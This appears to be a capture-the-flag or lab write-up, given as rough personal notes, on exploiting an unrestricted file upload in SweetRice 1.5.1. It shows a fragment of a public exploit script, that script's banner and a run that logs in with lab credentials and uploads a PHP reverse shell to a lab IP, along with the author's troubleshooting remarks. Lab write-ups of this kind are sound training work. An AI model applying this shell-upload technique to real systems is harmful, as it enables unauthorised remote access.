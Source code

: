 ```py
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass  
```

well, it is obviously silent failing or not hitting any of these print statements below

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.201.50.69/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.201.50.69/content/attachment/php-reverse-shell.php


![[Pasted image 20251024095459.png]]

Interesting to note the rev shell is shadowed

let's try editing the URL the way the script tells us to, couldnt get it to work

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
